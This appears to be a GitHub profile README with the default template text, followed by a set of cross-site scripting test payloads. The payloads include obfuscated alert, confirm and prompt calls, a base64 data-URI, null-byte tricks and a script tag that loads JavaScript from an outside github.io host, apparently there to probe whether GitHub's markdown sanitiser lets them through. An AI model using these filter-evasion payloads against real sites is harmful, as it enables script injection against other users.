 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&v=4)
![
<img src="https://avatars.githubusercontent.com/u/92805783?&s=40&v=" color="javascript:javascript:alert(1)"/>

<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
<script/&Tab; src='https://r89shi.github.io/teste.js' /&Tab;></script>
<ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?
<img src="data:text/html;&Tab;base64&Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">
<script /*%00*/>/*%00*/alert(1)/*%00*/</script /*%00*/
&#34;&#62;<h1/onmouseover='\u0061lert(1)'>%00

](()
